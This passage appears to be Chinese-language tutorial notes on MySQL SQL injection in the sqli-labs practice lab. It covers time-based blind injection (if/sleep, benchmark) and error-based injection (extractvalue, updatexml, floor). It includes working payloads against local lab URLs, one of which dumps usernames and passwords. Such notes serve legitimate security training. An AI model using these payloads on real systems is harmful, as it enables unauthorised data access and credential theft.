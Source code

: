**if()函数**

if(condition,true,false)如果condition为真，那么执行true，反之执行false

```mysql
http://192.168.88.133/sql/Less-9?id=1' and if(ascii(substr((select database()),1,1))>100,sleep(0),sleep(3)) --+
以上便是利用时间盲注得到数据库名的方法
```

sleep可以使用benchmark函数来替换，benchmark(1000000,md5(‘A’))指执行1000000次查询，即可达到延时的效果

### Error-Based报错型注入

#### extractvalue报错注入

```mysql
http://127.0.0.1/sql/Less-5?id=0' union select 1,extractvalue(1,concat(0x7e,(select database()))),3--+ 
concat函数是让0x7e和后面的指令连接在一起，0x7e是~的ASCII码，会使MySQL报错，从而爆出后面执行语句的结果。extractvalue的两个参数的第一个可以随便写，如上面写的是1
```

报错注入的局限性在于最多显示32个字符，可以配合使用substring()函数

```mysql
http://127.0.0.1/sql/Less-5?id=0' union select 1,extractvalue(1,concat(0x7e,(select substring(group_concat(username,'~',password),25,30) from users))),3--+ 
substring使其从第25个字符开始往后再显示30个字符，再拼接起来就得到了所有用户名和密码
```



#### updataxml报错注入

```mysql
updatexml函数有三个参数
updatexml(XML_document[XML文档对象的名称],XPath_string[路径],new_value[替换查找到的符合条件的数据])
报错原理同extractvalue()，输入错误的第二个参数，即更改路径的符号，第一个参数和第三个参数可以随便填
http://127.0.0.1/sql/Less-5?id=0' union select 1,updatexml(1,concat(0x7e,(select database())),3),3--+ 
```

#### floor报错注入

涉及函数：

rand()函数：随机返回0~1之间的小数

floor()函数：小数向下取整数

ceiling()函数：小数向上取整数

concat_ws()函数：将括号内数据用第一个字段连接起来

```mysql
select concat_ws('~',2,3);
执行结果是2~3
```

count()函数：汇总统计数量
